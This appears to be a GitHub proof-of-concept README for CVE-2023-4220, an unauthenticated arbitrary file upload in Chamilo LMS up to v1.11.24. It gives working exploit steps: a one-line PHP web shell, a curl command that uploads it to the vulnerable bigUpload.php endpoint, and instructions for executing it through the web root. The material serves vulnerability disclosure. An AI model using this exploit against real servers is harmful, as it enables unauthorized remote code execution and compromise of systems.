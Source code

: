 # Chamilo-LMS-Unauthenticated-File-Upload-
Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS &lt;= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell.

### Affected Version ≤v1.11.24

### **CVE Identifier** CVE-2023-4220

## **Vulnerability Summary**

The big file upload functionality by `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` allows arbitrary files to be uploaded to `/main/inc/lib/javascript/bigupload/files` directory within the web root.

### **Proof-of-Concept**

- If `/main/inc/lib/javascript/bigupload/files` directory exist we can upload Arbitrary file as;
- Create a malicious php file `echo '<?php system("whoami"); ?>' > dollarboysushil.php`
	![[images/Untitled(1).png]]


- We can then upload this file by issuing following command
    
    ```
    `$ curl -F 'bigUploadFile=@dollarboysushil.php' 'http://<website>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` 
    ```
    ![[images/Untitled(2).png]]

- We can check our file is uploaded by visiting the `/main/inc/lib/javascript/bigupload/files` directory
    ![[images/Untitled(3).png]]
		

- And we can execute it by clicking the php file, which gives the output of `whoami` command
		![[images/Untitled(4).png]]